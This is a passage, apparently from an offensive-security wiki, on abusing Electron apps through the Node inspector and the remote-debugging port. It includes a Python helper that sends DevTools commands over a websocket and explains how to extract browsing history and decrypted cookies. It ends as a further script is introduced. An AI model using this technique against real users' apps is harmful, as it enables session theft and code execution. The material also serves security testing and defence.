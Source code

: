 ```python

async def send_cmd(ws, method, get_first=False, params={}):
    """
    Send a command to the inspector and read until we get a response with matching "id".
    """
    global CONT

    CONT += 1

    # Send the command
    await ws.send(json.dumps({"id": CONT, "method": method, "params": params}))
    sleep(0.4)

    # Read messages until we get our command result
    while True:
        response = await ws.recv()
        data = json.loads(response)

        # Print for debugging
        print(f"[{method} / {CONT}] ->", data)

        if get_first:
            return data

        # If this message is a response to our command (by matching "id"), break
        if data.get("id") == CONT:
            return data

        # Otherwise it's an event or unrelated message; keep reading

if __name__ == "__main__":
    asyncio.run(main())
```

> [!CAUTION]
> If the fuse **`EnableNodeCliInspectArguments`** is disabled, the app will **ignore node parameters** (such as `--inspect`) when launched unless the env variable **`ELECTRON_RUN_AS_NODE`** is set, which will be also **ignored** if the fuse **`RunAsNode`** is disabled.
>
> However, you could still use the **electron param `--remote-debugging-port=9229`** but the previous payload won't work to execute other processes.

Using the param **`--remote-debugging-port=9222`** it's possible to steal some information from the Electron App like the **history** (with GET commands) or the **cookies** of the browser (as they are **decrypted** inside the browser and there is a **json endpoint** that will give them).

You can learn how to do that in [**here**](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e) and [**here**](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f) and use the automatic tool [WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut) or a simple script like:

